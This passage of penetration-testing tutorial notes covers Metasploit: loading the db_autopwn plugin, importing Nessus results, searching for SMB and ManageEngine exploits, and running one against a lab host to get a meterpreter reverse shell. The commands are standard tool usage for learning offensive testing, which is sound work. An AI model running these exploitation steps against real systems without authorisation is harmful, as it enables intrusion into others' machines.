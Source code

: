 ```bash
meterpreter> sysinfo  # reverse shell
```

**Second method**

```bash
kali@kali> wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
kali@kali> cp db_autopwn.rb /usr/share/metasploit-framework/plugins
kali@kali> msfconsole

msf6> load db_autopwn
msf6> db_autopwn -p -t -PI 445
msf6> db_autopwn -p -t -PI 21
```

**Third method**

```bash
msf6> analyze
msf6> vulns
```

### Nessus Vulnerability Scan

#### Definition

* Nessus is a proprietary scanner developed by Tenable.
* We can utilize Nessus to perform a vulnerability scan on a target system, after which, we can import the Nessus results in to MSF analysis and exploitation.
* Nessus automates the process of identifying vulnerabilities and also provides us with information pertinent to a vulnerability liek the CVE code.
* We can use the free version of Nessus, which allows us to scan upto 16 IPs.

```bash
msf6> workspace -a nessus-scan
msf6> db_import /home/kali/Downloads/MS3_fkthis.nessus
msf6> hosts
msf6> services
msf6> vulns                    # a lot of vulnerabilities
msf6> vulns -p 445             # filter vulnerabilities
msf6> search cve:2017 name:smb # 1st search way 
msf6> search MS12-020          # 2nd search way
msf6> search cve:2015 name:ManageEngine

msf6> use windows/http/manageengine_connectionid_write
msf6> set rhosts 10.10.10.4
msf6> run

meterpreter> sysinfo
```

### WMAP

#### Definition
